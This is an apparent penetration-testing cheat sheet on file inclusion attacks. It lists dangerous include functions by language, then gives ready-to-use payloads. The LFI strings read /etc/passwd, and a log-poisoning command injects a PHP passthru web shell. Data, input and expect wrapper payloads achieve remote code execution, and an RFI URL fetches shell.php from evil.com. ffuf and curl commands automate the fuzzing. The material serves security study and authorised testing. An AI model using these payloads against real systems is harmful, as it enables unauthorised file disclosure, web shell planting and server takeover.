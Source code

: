 ```yaml
---
description: Notes about some basic File Insclusion Attack
---
```


# File Inclusion

### Dangerous Function Lead to File Inclusion

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |         ✅        |      ✅      |        ✅       |
| `require()`/`require_once()` |         ✅        |      ✅      |        ❌       |
| `file_get_contents()`        |         ✅        |      ❌      |        ✅       |
| `fopen()`/`file()`           |         ✅        |      ❌      |        ❌       |
| **NodeJS**                   |                  |             |                |
| `fs.readFile()`              |         ✅        |      ❌      |        ❌       |
| `fs.sendFile()`              |         ✅        |      ❌      |        ❌       |
| `res.render()`               |         ✅        |      ✅      |        ❌       |
| **Java**                     |                  |             |                |
| `include`                    |         ✅        |      ❌      |        ❌       |
| `import`                     |         ✅        |      ✅      |        ✅       |
| **.NET**                     |                  |             |                |
| `@Html.Partial()`            |         ✅        |      ❌      |        ❌       |
| `@Html.RemotePartial()`      |         ✅        |      ❌      |        ✅       |
| `Response.WriteFile()`       |         ✅        |      ❌      |        ❌       |
| `include`                    |         ✅        |      ✅      |        ✅       |

### Local File Inclusion (LFI)

Local File Inclusion (LFI) is a type of vulnerability where an attacker can exploit a web application to include files that are already present on the server. By manipulating input parameters, such as URLs or form fields, the attacker can trick the application into loading files from the local file system, potentially accessing sensitive information or executing malicious code.

#### Basic LFI Payloads

| Command                                                   | Description             |
| --------------------------------------------------------- | ----------------------- |
| `/etc/passwd`                                             | Basic LFI               |
| `../../../../etc/passwd`                                  | LFI with path traversal |
| `/../../../etc/passwd`                                    | LFI with name prefix    |
| `./languages/../../../../etc/passwd`                      | LFI with approved path  |
| `php://filter/read=convert.base64-encode/resource=config` | LFI with Base64 Filter  |
| `../../../../etc/passwd%00`                               | LFI with Null byte      |

#### Log Poisoning to RCE

```bash
# Inject Access Log
curl -X "<?php echo passthru(\$_GET['cmd']);?>" http://localhost/wordpress/

# Access
index.php?page=/var/log/apache2/access.log&cmd=id
```

Access Log Location: Apache:

* /var/log/apache/access.log
* /var/log/apache2/access.log
* /etc/httpd/logs/access\_log Nginx:
* /var/log/nginx/access.log

#### LFI to RCE

```php

# Data Wrappers
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

# Input Wrappers
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://target.com/index.php?page=php://input&cmd=id"

# Expect Wrappers
curl -s "http://target.com/index.php?page=expect://id"
```

### Remote File Inclusion (RFI)

In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities. This is why remote URL inclusion is usually disabled by default. For example, any remote URL inclusion in PHP would require the allow\_url\_include setting to be enabled.

```bash
http://target.com/index.php?page=/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id

http://target.com/index.php?page=/index.php?language=http://evil.com/shell.php&cmd=id
```

### Automation

```bash
# Fuzzing Parameter
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://target.com/index.php?FUZZ=value' -fs 2309

# Check working payload with LFI wordlists
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://target.com/index.php?view=FUZZ' -fs 2309

# Read Apache2 Conf
curl http://target.com/index.php?view=../../../../../../../../../../../../../../../../../../etc/apache2/apache2.conf
```

### WordLists

* https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
* https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
